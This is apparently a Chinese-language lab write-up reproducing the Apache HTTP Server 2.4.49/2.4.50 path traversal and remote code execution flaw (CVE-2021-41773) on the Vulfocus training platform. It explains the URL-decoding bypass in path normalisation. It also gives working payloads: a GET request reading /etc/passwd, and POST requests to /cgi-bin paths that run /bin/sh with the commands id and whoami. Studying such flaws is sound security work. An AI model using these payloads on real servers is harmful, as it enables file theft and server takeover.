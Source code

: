 # 原创
：  【漏洞复现-Apache-目录穿越文件读取-RCE】vulfocus/apache(cve_2021_41773)

# 【漏洞复现-Apache-目录穿越文件读取-RCE】vulfocus/apache(cve_2021_41773)

**目录**

[一、靶场环境](#%E4%B8%80%E3%80%81%E9%9D%B6%E5%9C%BA%E7%8E%AF%E5%A2%83)

[1.1、平台：](#1.1%E3%80%81%E5%B9%B3%E5%8F%B0%EF%BC%9A)

[1.2、漏洞版本:](#1.2%E3%80%81%E6%BC%8F%E6%B4%9E%E7%89%88%E6%9C%AC%3A)

[1.3、描述：](#1.3%E3%80%81%E6%8F%8F%E8%BF%B0%EF%BC%9A)

[1.4、条件：](#1.4%E3%80%81%E6%9D%A1%E4%BB%B6%EF%BC%9A)

[1.5、成因：](#1.5%E3%80%81%E6%88%90%E5%9B%A0%EF%BC%9A)

[2.4.49版本](#2.4.49%E7%89%88%E6%9C%AC)

[2.4.50版本](#2.4.50%E7%89%88%E6%9C%AC)

[二、漏洞验证](#%E4%BA%8C%E3%80%81%E6%BC%8F%E6%B4%9E%E9%AA%8C%E8%AF%81)

[2.1、分析：](#2.1%E3%80%81%E5%88%86%E6%9E%90%EF%BC%9A)

[2.2、任意文件读取：](#2.2%E3%80%81%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%EF%BC%9A)

[2.3、RCE：](#2.3%E3%80%81RCE%EF%BC%9A)

[2.4、解题：](#2.4%E3%80%81%E8%A7%A3%E9%A2%98%EF%BC%9A)

[2.5、利用工具：](#2.5%E3%80%81%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7%EF%BC%9A)

---


## 一、靶场环境

> 
<h3>1.1、平台：</h3>
[Vulfocus 漏洞威胁分析平台](https://vulfocus.cn/)
123.58.224.8:43713







 

> 
<h3>1.2、漏洞版本:</h3>
Apache HTTP Server 2.4.49、2.4.50


> 
<h3>1.3、描述：</h3>
版本对路径规范化所做的更改中存在一个路径穿越漏洞，攻击者可利用该漏洞读取到Web目录外的其他文件，如系统配置文件、网站源码等，甚至在特定情况下，攻击者可构造恶意请求执行命令，控制服务器。


> 
<h3>1.4、条件：</h3>
配置目录遍历，开启cgi mode<br/> 版本为2.4.49/2.4.50<br/> 存在cgi-bin和icons文件夹
//CGI-BIN是一种特殊的目录，在进行交互式的WWW访问（如填写在线表格），需要服务器上有相应的程序对访问者输入的信息进行处理，即CGI程序


> 
<h3>1.5、成因：</h3>
<h4>2.4.49版本</h4>
使用的ap_normalize_path函数在对路径参数进行规范化时会先进行url解码，判断是否存在../的路径穿越符
当检测到路径中存在%字符时，如果紧跟的2个字符是十六进制字符，就会进行url解码，将其转换成标准字符
如%2e-&gt;.转换完成后，会继续判断是否存在../
如果路径中存在%2e./形式，就会检测到，但是出现.%2e/这种形式时，就不会检测到，原因是在遍历到第一个.字符时，此时检测到后面的两个字符是%2而不是./，就不会把它当作路径穿越符处理，因此可以使用.%2e/或者%2e%2e绕过对路径穿越符的检测
<hr/>
<h4>2.4.50版本</h4>
修复不完整，50版本也存在该漏洞
GET payload:
/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
POST payload:
/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh

加上需要执行的命令


#### 2.4.50版本

---


---


## 二、漏洞验证

> 
<h3>2.1、分析：</h3>
抓包





> 
<h3>2.2、任意文件读取：</h3>
payload
<pre>`GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1`</pre>




> 
<h3>2.3、RCE：</h3>
payload：
<pre><code>POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1




echo Content-Type: text/plain; echo; id;whoami</code></pre>





> 
<h3>2.4、解题：</h3>




> 
<h3>2.5、利用工具：</h3>



